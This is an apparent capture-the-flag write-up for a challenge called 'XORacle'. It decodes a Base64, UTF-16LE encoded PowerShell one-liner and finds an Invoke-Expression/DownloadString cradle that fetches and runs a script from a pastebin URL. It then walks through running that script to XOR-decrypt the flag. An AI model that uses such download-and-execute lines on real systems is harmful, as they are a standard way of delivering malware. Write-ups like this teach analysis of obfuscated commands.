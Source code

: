 Cryptoghrapy
title: XORacle

encoded script:
SQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwAHMAOgAvAC8AcABhAHMAdABlAGIAaQBuAC4AYwBvAG0ALwByAGEAdwAvAHIAQQA5AHoAdgBqADUAdQAiACkADQAKAA

The encoded script provided is in Base64 format. When decoded using Base64, it results in a string that appears to be encoded in UTF-16LE (Little Endian) format. To properly decode this UTF-16LE encoded string, we need to use a decoding tool or script that supports UTF-16LE decoding. We discovered that the encoded script corresponds to a PowerShell command.

Invoke-Expression (New-Object Net.WebClient).DownloadString("https://pastebin.com/raw/rA9zvj5u")

Given the presence of the command "Invoke-Expression," it indicates a strong likelihood that the script is intended for execution in a PowerShell environment. The decoded script is a PowerShell command that uses Invoke-Expression to execute the code retrieved from a URL. Specifically, it downloads and executes a script from the URL https://pastebin.com/raw/rA9zvj5u.Further analysis of the content at the provided URL is necessary to potential clues to get the flag. 

Next, Copy the provided URL (https://pastebin.com/raw/rA9zvj5u) and paste it into a web browser. This retrieves the contents of the script. 

Understand the Script: First, players should examine the provided PowerShell script. The script defines a function named xor that performs XOR encryption and decryption.

To retrieve the flag using this script, you would indeed follow these steps:

1. Copy the entire PowerShell script provided.
2. Open PowerShell on your system.
3. Paste the copied script into the PowerShell terminal and press Enter to execute it.
4. After execution, the $output2 variable will contain the decrypted output, which likely contains the flag or further instructions. 

In the provided PowerShell script, the `$output2` variable is assigned the result of calling the `xor` function with the encrypted string and specifying the decryption method as "decrypt". This means that `$output2` will contain the decrypted output after executing the script.

So, when you echo or print the value of `$output2` after executing the script in PowerShell, it will display the decrypted output, which likely contains the flag. The script is designed to perform decryption and assign the result to `$output2`, allowing you to easily access the decrypted information by echoing or printing the value of `$output2`.
 